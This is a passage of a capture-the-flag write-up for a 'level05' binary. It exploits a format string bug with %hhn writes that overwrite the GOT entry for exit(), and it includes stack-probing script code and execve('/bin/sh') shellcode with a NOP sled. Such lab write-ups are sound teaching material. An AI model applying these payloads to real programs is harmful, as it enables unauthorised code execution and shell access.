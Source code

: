 In the last two lines, we see a **printf call to user input**, which indicates a format string vulnerability. We also noticed that the program calls `exit()` and its complete and not return, which means we are enable to overwrite the EIP, and had to overwrite the GOT for `exit()` instead. 

We also noticed that the program decapitalizes any characters in the input buffer, so that is something to take note of. The first step would be to find the offset of the printf stack address to the contents of the first printf argument. I have made a script to go through the stack to display its contents

```
cat << EOF > /tmp/test.py
import os
import sys
for i in range(1, 42, 1) :
    os.system("echo '' > /tmp/output; echo 'iiii %{}\$p' | /home/users/level05/level05 >> /tmp/output".format(i))
    output = open('/tmp/output', 'r').read()
    sys.stdout.write("{} - ".format(i))
    sys.stdout.write(output[1:])
EOF

python /tmp/test.py
```

As we can see the contents are at **the 10th `%p`**. This is important because we will be putting our GOT address here to be read, and overwritten using `%n`. To locate the GOT address for `exit()`, we can check the relocation entries using `objdump -R ./level05` and we can see its `080497e0`. So our new input should be pointing to that address and printing it out for now. **We also should replace `%p` with `%hhn` so the system will write to that address** on how many bytes we have printed

```
python -c "print '\x08\x04\x97\xe0'[::-1] + 'B' * 12 + '%10\$hhn'" > /tmp/level05
./level05 < /tmp/level05
```

As we can see, we have successfully written over the GOT. So we just need to replace this with a pointer to the shellcode, which I will put in the environment variable.
![image](https://hackmd.io/_uploads/rJLq0Q2Ip.png)

The shellcode will be a simple `execve(/bin/sh)` I found [here](https://shell-storm.org/shellcode/). I will be exporting this in the environment variable and we will be getting the address via GDB. As we can see, our address is `0xffffd85e` but we have a NOP sled, so let make it safer by assuming its  `0xffffd87e`

```
export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`
```
![image](https://hackmd.io/_uploads/ryPQ64nUT.png)

With this information, we can now construct our payload like so:
```
0x080497e0 - d87e (55414 bytes)
0x080497e2 - ffff (10113 bytes from last)
```
